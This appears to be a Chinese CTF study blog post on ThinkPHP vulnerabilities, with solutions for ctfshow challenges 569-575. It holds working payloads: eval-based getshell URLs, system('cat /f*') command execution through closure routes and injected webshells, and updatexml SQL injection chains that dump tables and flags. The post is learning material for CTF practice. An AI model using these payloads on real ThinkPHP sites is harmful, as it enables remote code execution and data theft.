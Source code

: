 ```yaml
---
title: thinkphp框架
date: 2022-02-25 14:02:30
author: Na0H
hidden: true
tags:	
- 学习笔记
- ctfshow
categories:
- 学习笔记
excerpt: thinkphp框架
description:  thinkphp框架

---
```


<!-- more -->

太久没学习了。。就打算学习一下thinkphp这个框架，简单跟着人家审计一下

[ThinkPHP系列专题相关POC及CTFshow---ThinkPHP专题（569-579 604-626）解题思路 - Bit's Blog (xl-bit.cn)](https://www.xl-bit.cn/index.php/archives/628/)





# ThinkPHP 2.x 任意代码执行漏洞



- php版本<=5.6.29

- 成因是preg_replace()使用了修饰符/e匹配路由，导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

  ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。
  
  ```php
  #./ThinkPHP/Lib/Think/Util/Dispatcher.class.php:102: 
  $res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
  ```
  

具体分析：

[ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/223149.html)

[preg_replace的/e修饰符妙用与慎用 - WiFeng的博客 (521-wf.com)](https://521-wf.com/archives/45.html)

[PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)](https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day8/files/README.md)

payload：

```
/index.php?s=/index/index/name/${phpinfo()}
```

getshell：

```
/index.php?s=/index/index/name/${eval($_REQUEST[8])}&&8=phpinfo();
```





# Thinkphp3

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

> thinkphp3版本路由格式:
>
> ```
> http://serverName/index.php/模块/控制器/方法/参数
> ```

[ThinkPHP3.2.3SQL注入分析 - Pan3a - 博客园 (cnblogs.com)](https://www.cnblogs.com/Pan3a/p/14873308.html)

## Thinkphp3.2.3 SQL注入

### where

payload:

```
?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```













# ctfshow-thinkphp

## 569-pathinfo的运用

```
http://serverName/index.php/模块/控制器/方法/参数
```

payload:

```
url/index.php/Admin/Login/ctfshowLogin
```

## 570-闭包路由

```php
# Application/Common/Conf/config.php
    'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
    )
```

[闭包支持 · ThinkPHP3.2.3完全开发手册 · 看云 (kancloud.cn)](https://www.kancloud.cn/manual/thinkphp/1710)

payload:

```
url/index.php/ctfshow/assert/assert($_GET[1])?1=system('cat /f*')
```

## 571-控制器

[控制器定义 · ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1713)

一般来说，ThinkPHP的控制器是一个类，而操作则是控制器类的一个**公共方法**。

简单审计一下：

```php
# Application\Home\Controller\IndexController.class.php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($n=''){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"> <h1>CTFshow</h1><p>thinkphp 专项训练</p><p>hello,'.$n.'黑客建立了控制器后门，你能找到吗</p>','utf-8');
    }

}
```

该类就代表Home模块下的Index控制器，index操作就是访问该类中的index方法
即访问：`url/index.php/Home/Index/index/n/111`或`url/index.php/Home/Index/index/?n=111`

payload:

```
GET:
/index.php/Home/Index/index/?n=<?php eval($_POST[1]);?>

POST:
1=system('cat /f*');
```

## 572-debug模式访问log文件

> hint:**此题需要使用爆破来获得关键信息，非扫描，爆破次数不会超过365次，否则均为无效操作**

> [日志记录 · ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1827)
> 默认情况是debug模式下会记录日志，因此如果没有限制访问目录就容易出现文件泄露
> 且这个日志文件的命令规律是：年\_月\_日.log且日志文件是在\Application\Runtime\Logs\目录下的

bp爆破日志文件：

```
url/Application/Runtime/Logs/22_3_1.log
```

得到后门：`/index.php?showctf=<?php phpinfo();?>`

```
GET:
/index.php?showctf=<?php eval($_POST[1]);?>

POST:
1=system('cat /f*');
```

## 573-sql注入

[ThinkPHP3.2.3代码审计【find方法引起的SQL注入】_D.MIND 的博客-CSDN博客](https://blog.csdn.net/weixin_45669205/article/details/117429889)

```
?id[where]=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

?id[where]=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flags'),0x7e),1)

?id[where]=1 and updatexml(1,concat(0x7e,substr((select flag4s from flags),1),0x7e),1)

```



## 574-sql注入

> ```php
> public function index($id=1){
> 	$name = M('Users')->where('id='.$id)->find();
> 	$this->show($html);
> }
> ```

```
?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='flags'),0x7e),1)

?id=1 and updatexml(1,concat(0x7e,substr((select flag4s from flags),1),0x7e),1)
```



## 575-反序列化POP链

> ```php
> $user= unserialize(base64_decode(cookie('user')));
> 	if(!$user || $user->id!==$id){
> 		$user = M('Users');
> 		$user->find(intval($id));
> 		cookie('user',base64_encode(serialize($user->data())));
> 	}
> 	$this->show($user->username);
> }
> ```
